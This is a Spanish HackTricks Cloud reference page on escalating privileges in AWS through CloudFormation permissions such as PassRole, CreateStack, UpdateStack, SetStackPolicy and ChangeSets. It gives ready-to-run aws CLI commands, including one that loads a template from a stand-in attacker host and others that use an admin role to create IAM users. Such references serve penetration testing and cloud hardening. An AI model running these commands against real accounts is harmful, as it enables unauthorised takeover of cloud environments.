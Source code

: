 # AWS - Escalada de privilegios en Cloudformation

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## cloudformation

Para obtener más información sobre cloudformation, consulta:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un atacante con estos permisos **puede escalar privilegios** creando una **pila de CloudFormation** con una plantilla personalizada, alojada en su servidor, para **ejecutar acciones bajo los permisos de un rol especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
En la siguiente página tienes un **ejemplo de explotación** con el permiso adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Escalada de privilegios al rol de servicio de cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

En este caso puedes **abusar de una pila de cloudformation existente** para actualizarla y escalar privilegios como en el escenario anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permisión `cloudformation:SetStackPolicy` se puede utilizar para **otorgarte permiso de `UpdateStack`** sobre una pila y llevar a cabo el ataque.

**Impacto potencial:** Escalada de privilegios al rol de servicio de cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si tienes esta permisión pero **no tienes `iam:PassRole`**, aún puedes **actualizar las pilas** utilizadas y abusar de los **Roles IAM que ya tienen adjuntos**. Consulta la sección anterior para ver un ejemplo de explotación (simplemente no indiques ningún rol en la actualización).

La permisión `cloudformation:SetStackPolicy` se puede utilizar para **otorgarte permiso de `UpdateStack`** sobre una pila y llevar a cabo el ataque.

**Impacto potencial:** Escalada de privilegios al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un atacante con permisos para **pasar un rol y crear y ejecutar un ChangeSet** puede **crear/actualizar una nueva pila de cloudformation y abusar de los roles de servicio de cloudformation** de la misma manera que con CreateStack o UpdateStack.

La siguiente explotación es una **variación de la** [**anterior de CreateStack**](./#iam-passrole-cloudformation-createstack) utilizando los **permisos de ChangeSet** para crear una pila.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
El permiso `cloudformation:SetStackPolicy` se puede utilizar para **otorgarte permisos de `ChangeSet`** sobre una pila y llevar a cabo el ataque.

**Impacto potencial:** Escalada de privilegios a roles de servicio de cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Este método es similar al anterior sin pasar **roles de IAM**, por lo que simplemente puedes **abusar de los que ya están adjuntos**, solo modifica el parámetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un atacante podría abusar de estos permisos para crear/actualizar StackSets y abusar de roles de cloudformation arbitrarios.

**Impacto Potencial:** Escalada de privilegios a roles de servicio de cloudformation.

### `cloudformation:UpdateStackSet`

Un atacante podría abusar de este permiso sin el permiso de passRole para actualizar StackSets y abusar de los roles de cloudformation adjuntos.

**Impacto Potencial:** Escalada de privilegios a los roles de cloudformation adjuntos.

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
